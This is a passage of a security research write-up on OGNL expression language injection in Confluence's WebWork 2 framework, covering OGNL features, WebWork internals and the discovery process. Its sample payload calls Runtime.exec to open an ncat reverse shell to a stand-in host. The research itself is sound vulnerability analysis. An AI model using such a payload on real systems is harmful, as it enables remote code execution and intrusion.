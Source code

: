 # Expression Language Injection
Expression Language injection vulnerabilities arise when an application incorporates user-controllable data into a string that is dynamically evaluated by a code interpreter. If the user data is not strictly validated, an attacker can use crafted input to modify the code to be executed, and inject arbitrary code that will be executed by the server [[2]](https://portswigger.net/kb/issues/00100f20_expression-language-injection). Object-Graph Navigation Language (OGNL) [[3]](https://commons.apache.org/proper/commons-ognl/language-guide.html) is an expression language for handling Java objects. When an OGNL injection vulnerability is present, it is possible for the attacker to inject OGNL expressions that can then be used to execute arbitrary Java code. In addition to property getting/setting, OGNL supports many more features, of which the below seems to be interesting from an exploit development view-point

- Static method calling: @java.lang.Runtime@getRuntime()

- Constructor calling: new java.lang.String[]{'/bin/bash','-c', ‘xcalc’}

- Ability to work with context variables: #attr["webwork.valueStack"]

- Method calling: #attr["webwork.valueStack"].findValue()

Combining the above constructs a valid OGNL expression may be formed. A typical OGNL expression is shown below:

```sh
@java.lang.Runtime@getRuntime().exec('ncat 203.0.113.5 8021 -e /bin/bash')
```

# Webwork 2

WebWork 2 is a pull based MVC framework built on top of a command pattern framework API called XWork and is the predecessor of the popular Apache Struts2. Confluence uses OpenSymphony's WebWork 2 to process web requests submitted by users. Webwork supports a powerful Expression Language based on OGNL for navigating its object stack(a.k.a ValueStack). It also supports multiple view technologies including JSP, FreeMarker, Velocity and also provides a rich tag library. “WebWork: Strutting the OpenSymphony way” by Mike Cannon-Brookes [4] provides an excellent overview of the Webwork 2 framework. Among other things that is of particular interest to this vulnerability is Webwork’s support for:

- Automatically setting properties of action based on request parameters (URL params)
- View integration (Velocity)
- User interface / form components (Webwork tags) that process some of it’s attributes using OGNL

# Discovery
The detection of the vulnerability primarily involved a white box testing approach where source code instrumentation was used to analyze the OGNL evaluation. Following the excellent research of GHSL researcher Man Yue Mo on OGNL injection in Apache Struts [[5]](https://securitylab.github.com/research/apache-struts-double-evaluation/) [[6]](https://securitylab.github.com/research/ognl-injection-apache-struts/) [[7]](https://securitylab.github.com/research/apache-struts-CVE-2018-11776/) it has been noticed that the [evaluateParams](https://lgtm.com/projects/g/apache/struts/snapshot/218366b4cd0d8d165f505e8b9e6f3e6bf19d9aae/files/core/src/main/java/org/apache/struts2/components/UIBean.java#L637) method of the UIBean class served as an interesting candidate. The code base of the webwork library in the Confluence Data Center(atlassian-confluence-x.y.z/confluence/WEB-INF/lib/webwork-2.1.5-atlassian-3.jar) was extracted using JD GUI and was analysed for methods similar to evaluateParams. The closest match was protected void evaluateParams(OgnlValueStack stack) method in com.opensymphony.webwork.views.jsp.ui.AbstractUITag. Source code analysis further revealed that there exists a com.opensymphony.webwork.util.SafeExpressionUtil class that blocked the majority of the OGNL payloads.
